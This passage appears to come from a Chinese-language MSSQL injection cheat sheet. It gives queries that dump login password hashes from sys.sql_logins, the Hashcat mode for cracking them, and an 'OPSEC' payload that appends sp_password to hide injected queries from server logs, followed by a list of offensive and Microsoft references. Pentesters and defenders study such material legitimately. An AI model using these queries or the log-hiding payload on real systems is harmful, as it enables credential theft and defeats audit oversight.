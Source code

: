 * **MSSQL 2005**: Hashcat 模式 132: `0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe`

    ```sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    ```

## MSSQL OPSEC

在查询中使用 `SP_PASSWORD` 来隐藏日志中的记录，例如：`' AND 1=1--sp_password`

```sql
-- 'sp_password' 在此事件的文本中被发现。
-- 为了安全起见，文本已被替换为此注释。
```

## 参考文献

* [由于非正统的 MSSQL 设计选择导致 AWS WAF 客户端易受 SQL 注入攻击 - Marc Olivier Bergeron - 2023 年 6 月 21 日](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)
* [“Order By” 子句中的基于错误的 SQL 注入 - Manish Kishan Tanwar - 2018 年 3 月 26 日](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
* [完整的 MSSQL 注入 PWN - ZeQ3uL && JabAv0C - 2009 年 1 月 28 日](https://www.exploit-db.com/papers/12975)
* [IS_SRVROLEMEMBER (Transact-SQL) - Microsoft - 2024 年 4 月 9 日](https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15)
* [MSSQL 注入速查表 - @pentestmonkey - 2011 年 8 月 30 日](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [MSSQL 可信链接 - HackTricks - 2024 年 9 月 15 日](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)
* [SQL Server - 链接...链接...链接...并 Shell: 如何在 SQL Server 中黑客数据库链接！ - Antti Rantasaari - 2013 年 6 月 6 日](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [sys.fn_my_permissions (Transact-SQL) - Microsoft - 2024 年 1 月 25 日](https://docs.microsoft.com/en-us/sql/relational-databases/system-functions/sys-fn-my-permissions-transact-sql?view=sql-server-ver15)